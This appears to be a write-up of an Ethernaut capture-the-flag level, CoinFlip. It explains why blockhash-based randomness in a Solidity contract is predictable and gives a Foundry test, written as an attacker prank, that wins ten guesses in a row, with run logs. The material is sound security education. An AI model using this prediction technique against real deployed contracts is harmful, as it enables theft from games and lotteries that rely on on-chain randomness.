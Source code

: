 # What is OpenZeppelin Ethernaut?

OpenZeppelin Ethernaut is an educational platform that provides interactive and gamified challenges to help users learn about Ethereum smart contract security. It is developed by OpenZeppelin, a company known for its security audits, tools, and best practices in the blockchain and Ethereum ecosystem.

OpenZeppelin Ethernaut Website: [ethernaut.openzeppelin.com](ethernaut.openzeppelin.com)

# What You're Supposed to Do?

in `03-CoinFlip` Challenge, You Should Try To find a Way to Guess Correctly What Will be The Output of Coin Flip and You have to do it `10` times in a Row.

`03-CoinFlip` Challenge Link: [https://ethernaut.openzeppelin.com/level/0xA62fE5344FE62AdC1F356447B669E9E6D10abaaF](https://ethernaut.openzeppelin.com/level/0xA62fE5344FE62AdC1F356447B669E9E6D10abaaF)

# How did i Complete This Challenge?

So First We Should Understand How the Coin Flip Works:

```javascript
    function flip(bool _guess) public returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));

        if (lastHash == blockValue) {
            revert();
        }

        lastHash = blockValue;
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        if (side == _guess) {
            consecutiveWins++;
            return true;
        } else {
            consecutiveWins = 0;
            return false;
        }
    }
```

We Get Random Number With Decremented Current `block.number` Value by 1 and then hash it with `blockhash`, then convert returned `bytes32` to `uint256` and Store it to `blockValue` variable.

then We Set `lastHash` variable value to `blockValue`.

Then We Divide `blockValue` to `57896044618658097711785492504343953926634992332820282019728792003956564819968` and then Store it to a variable named as `coinFlip`.

Then We Check if Value of `coinFlip` is Equal to `1` or not, Returned Value is an Boolean Value Which is Stored in a variable named `side`.

Then We Check if `side` Boolean Value is Equal to the `_guess` Boolean Value Which We Passed as Parameter to `flip` function. if is `true`, then We Increment the `consecutiveWins` by `1` and then return `true` , otherwise we set the `consecutiveWins` to 0 (even if consecutiveWins current value is 9) and return `false`.

also if You Guessed Coin Flip Once Correctly, You Cannot Call `flip` function right after it because We have a if Statement that Checks `if (lastHash == blockValue) {revert();}`.

As We Know the block attributes are Bad source of Randomness, Because the Value of it is Public to Everyone on Blockchain and Can Be guessed, so Basically it's Not a Random Number When it's Guessable.

This is The Test i Wrote Which Allows You To Guess the Output of the CoinFlip 10 times in a Row Correctly Without Losing One time (basically setting `consecutiveWins` back to 0).

It's Just an While Loop That does the Same thing as the `flip` function but tries it with different `block.number`s and Checks if the CoinFlip Guess Was Right before calling the actual `flip` function.

```javascript
    function testRandomNumberIsPredictable() external {
        vm.startPrank(attacker);
        while (consecutiveWins < 10) {
            console2.log("Current Consecutive Wins: ", consecutiveWins);
            uint256 blockValue = uint256(blockhash(block.number - 1));

            if (lastHash == blockValue) {
                revert();
            }

            lastHash = blockValue;
            uint256 coinFlip = blockValue / FACTOR;
            bool side = coinFlip == 1 ? true : false;

            if (side == _guess) {
                bool isTrue = coinFlipContract.flip(_guess);
                if (isTrue) {
                    consecutiveWins++;
                    vm.roll(block.number + increment);
                    increment++;
                }
            } else if (side != _guess) {
                _guess = !_guess;
                vm.roll(block.number + increment);
                increment++;
            }
        }
        vm.stopPrank();
        console2.log("You WON! Current Consecutive Wins: ", consecutiveWins);
    }
```


You Can Run this Test in Your Terminal: (it's Required to Have [Foundry](https://book.getfoundry.sh/) Installed)

```javascript
    forge test --match-test testRandomNumberIsPredictable -vvvv
```

Take A look At the `Logs`, To See How Many Tries it Took the Get `10` consecutiveWins.

```javascript

    // My Current Run Logs, Looks Like This:

    Logs:
        Current Consecutive Wins:  0
        Current Consecutive Wins:  1
        Current Consecutive Wins:  1
        Current Consecutive Wins:  1
        Current Consecutive Wins:  1
        Current Consecutive Wins:  1
        Current Consecutive Wins:  2
        Current Consecutive Wins:  2
        Current Consecutive Wins:  3
        Current Consecutive Wins:  3
        Current Consecutive Wins:  3
        Current Consecutive Wins:  3
        Current Consecutive Wins:  4
        Current Consecutive Wins:  5
        Current Consecutive Wins:  6
        Current Consecutive Wins:  7
        Current Consecutive Wins:  8
        Current Consecutive Wins:  9
        You WON! Current Consecutive Wins:  10

```

it Took `19` Loops, To Win. What This While Loop Did it sets new `block.number` by Incrementing the Current `block.number` with `increment` variable value, everytime the guess for the Coin, Turns out to be Wrong. meaning `if (side != _guess)`.
